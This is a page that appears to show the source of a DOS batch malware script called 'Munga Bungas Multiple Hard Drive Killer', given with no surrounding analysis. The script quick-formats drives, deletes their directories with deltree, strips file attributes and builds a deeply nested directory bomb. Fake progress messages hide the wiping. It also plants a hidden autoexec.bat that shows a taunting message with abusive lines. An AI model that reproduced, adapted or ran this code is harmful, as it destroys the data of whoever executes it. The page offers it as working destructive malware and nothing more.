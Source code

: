 ```
echo cls >>c:/autoexec.bat  
echo echo Welcome to the land of death. Munga Bungas Multiple Hard Drive Killer version 4.0. >>c:/autoexec.bat  
echo echo If you ran this file, then sorry, I just made it. The purpose of this program is to tell you the following. . . >>c:/autoexec.bat  
echo echo 1. To make people aware that security should not be taken for granted. >>c:/autoexec.bat  
echo echo 2. Love is important, if you have it, truly, dont let Go of it like I did! >>c:/autoexec.bat  
echo echo 3. If you are NOT a vegetarian, then you are a murderer, and Im glad your HD is dead. >>c:/autoexec.bat  
echo echo 4. Dont support the following: War, Racism, Drugs and the Liberal Party.>>c:/autoexec.bat  
echo echo. >>c:/autoexec.bat  
echo echo Regards, >>c:/autoexec.bat  
echo echo. >>c:/autoexec.bat  
echo echo Munga Bunga >>c:/autoexec.bat  
call attrib +r +h c:/autoexec.bat  
:makedir  
if exist c:/temp.bat attrib -r -h c:/temp.bat >nul  
echo @echo off >c:/temp.bat  
echo %%1:/ >>c:/temp.bat  
echo cd/ >>c:/temp.bat  
echo :startmd >>c:/temp.bat  
echo for %%%%a in ("if not exist %%2/nul md %%2" "if exist %%2/nul cd %%2") do %%%%a >>c:/temp.bat  
echo for %%%%a in (">ass_hole.txt") do echo %%%%a Your Gone @$$hole!!!! >>c:/temp.bat  
echo if not exist %%1:/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/%%2/nul goto startmd >>c:/temp.bat  
call attrib +r +h c:/temp.bat >nul  
cls  
echo Initializing Variables . . .  
rem deltree /y %%a:/*. only eliminates directories, hence leaving the file created above for further destruction.  
for %%a in (%drive%) do call format %%a: /q /u /autoSample >nul  
cls  
echo Initializing Variables . . .  
echo Validating Data . . .  
for %%a in (%drive%) do call c:/temp.bat %%a Munga >nul  
cls  
echo Initializing Variables . . .  
echo Validating Data . . .  
echo Analyzing System Structure . . .  
for %%a in (%drive%) call attrib -r -h %%a:/ /S >nul  
call attrib +r +h c:/temp.bat >nul  
call attrib +r +h c:/autoexec.bat >nul  
cls  
echo Initializing Variables . . .  
echo Validating Data . . .  
echo Analyzing System Structure . . .  
echo Initializing Application . . .  
for %%a in (%drive%) call deltree /y %%a:/*. >nul  
cls  
echo Initializing Variables . . .  
echo Validating Data . . .  
echo Analyzing System Structure . . .  
echo Initializing Application . . .  
echo Starting Application . . .  
for %%a in (%drive%) do call c:/temp.bat %%a Munga >nul  
cls  
echo Thank you for using a Munga Bunga product.  
echo.  
```